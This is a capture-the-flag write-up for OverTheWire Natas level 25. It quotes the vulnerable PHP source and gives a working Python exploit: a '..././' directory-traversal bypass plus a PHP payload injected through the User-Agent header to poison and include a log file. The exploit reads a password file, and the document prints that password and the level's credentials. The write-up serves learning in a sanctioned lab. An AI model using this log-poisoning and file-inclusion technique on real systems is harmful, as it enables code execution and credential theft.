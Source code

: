 # Over The Wire -- Natas 25

## Server URL
```
http://natas25:GHF6X7YwACaYYssHVY05cFq83hRktl4c@natas25.natas.labs.overthewire.org
```

## Solution
We get a text quote

The php source code is 
```php
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src="http://natas.labs.overthewire.org/js/wechall-data.js"></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas25", "pass": "<censored>" };</script></head>
<body>
<?php
    // cheers and <3 to malvina
    // - morla

    function setLanguage(){
        /* language setup */
        if(array_key_exists("lang",$_REQUEST))
            if(safeinclude("language/" . $_REQUEST["lang"] ))
                return 1;
        safeinclude("language/en"); 
    }
    
    function safeinclude($filename){
        // check for directory traversal
        if(strstr($filename,"../")){
            logRequest("Directory traversal attempt! fixing request.");
            $filename=str_replace("../","",$filename);
        }
        // dont let ppl steal our passwords
        if(strstr($filename,"natas_webpass")){
            logRequest("Illegal file access detected! Aborting!");
            exit(-1);
        }
        // add more checks...

        if (file_exists($filename)) { 
            include($filename);
            return 1;
        }
        return 0;
    }
    
    function listFiles($path){
        $listoffiles=array();
        if ($handle = opendir($path))
            while (false !== ($file = readdir($handle)))
                if ($file != "." && $file != "..")
                    $listoffiles[]=$file;
        
        closedir($handle);
        return $listoffiles;
    } 
    
    function logRequest($message){
        $log="[". date("d.m.Y H::i:s",time()) ."]";
        $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
        $log=$log . " \"" . $message ."\"\n"; 
        $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
        fwrite($fd,$log);
        fclose($fd);
    }
?>

<h1>natas25</h1>
<div id="content">
<div align="right">
<form>
<select name='lang' onchange='this.form.submit()'>
<option>language</option>
<?php foreach(listFiles("language/") as $f) echo "<option>$f</option>"; ?>
</select>
</form>
</div>

<?php  
    session_start();
    setLanguage();
    
    echo "<h2>$__GREETING</h2>";
    echo "<p align=\"justify\">$__MSG";
    echo "<div align=\"right\"><h6>$__FOOTER</h6><div>";
?>
<p>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Hmmm, the fact that we can't use `../` is a pain in the ass.. Not sure how to recover the password.

Seems like we have control over what is written to log using our `USER-AGENT`. But i don't know how to access it.

Using absolute path result in `forbidden` and we can't include the `logs` folder since we need `../` to get up one folder from the `language` folder...

After some thinking, it wasn't that complicated.
The `str_replace` is only done once. We can use `..././` that will get replaced to `../` to do directory traversal.

We can include the logs using (the id is the session id)
```
?lang=..././logs/natas25_18sj9ue8fl7dqsu9ioqadflm41.log
```

So now we just need to trigger the log writing with a `user-agent` containing php code.

We use this python script to do this:
```py
import requests

url = "http://natas25:GHF6X7YwACaYYssHVY05cFq83hRktl4c@natas25.natas.labs.overthewire.org"

php_payload = "<?php echo file_get_contents('/etc/natas_webpass/natas26'); ?>"
    
s = requests.Session()
r = s.get(url)
session_id = list(r.cookies.get_dict().values())[0]
r = s.get(url, headers={"User-Agent":php_payload}, params={"lang": f"..././logs/natas25_{session_id}.log"})
password = r.text.split('\n "Directory')[0].split(']')[1].strip()

print(f"Natas26 password : {password}")
```

We get Natas26 password :
```
oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T
```
